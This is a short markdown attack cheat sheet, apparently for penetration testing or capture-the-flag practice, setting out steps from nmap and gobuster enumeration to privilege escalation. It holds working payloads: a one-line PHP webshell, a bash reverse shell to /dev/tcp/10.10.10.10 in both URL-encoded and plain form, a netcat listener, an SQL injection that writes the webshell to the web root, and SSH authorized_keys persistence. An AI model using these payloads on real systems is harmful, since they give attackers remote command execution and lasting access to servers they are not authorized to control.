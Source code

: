 # Attack Process

## Initial Enumeration

Nmap: 

```bash
sudo nmap -sC -sV -n $TARGET; sudo nmap -sU --max-retries 1 -v -n $TARGET;
```

## Setup for incoming reverse shells

```bash
nc -lnvp 12345
```

## Web Enumeration

If webservers are involved

Gobuster:

```bash
gobuster dir -u http://$TARGET:$HTTP_PORT/ -w /usr/share/wordlists/dirb/common.txt
```

- Read source files
- Examine requests sent as the interface is used
    - Look for cookies/parameters for reuse/injection/etc.
- Fuzz simple bad data/try common creds
- If file upload is available and php is used, upload a reverse php shell

### Webshell

If we can create a PHP file with the following contents:

```php
<?php SYSTEM($_REQUEST['cmd']); ?>
```

Then we can run arbitrary commands by sending payloads with

```
cmd=<url encoded command>
```

For example:

```
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.10.10/12345+0>%261'
```

Will run the command

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/12345 2>&1'
```

A PHP reverse-shell may be more useful if networking allows it, but the webshell can perform requests even if no reverse shell is possible.

### SQL Injection

#### Outfile

```sql
' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

## Solidify and Escalate From Shell

- whoami
- If SSH is available, place your public key in ~/.ssh/authorized_keys
- sudo -l
    - anything we can run as sudo without a password (or with a password if we have creds), look up GTFOBins
- 

### Password Reuse

Try to get root shell with reused password: 

```
su -
```

# Useful Tools

## CyberChef

https://gchq.github.io/CyberChef/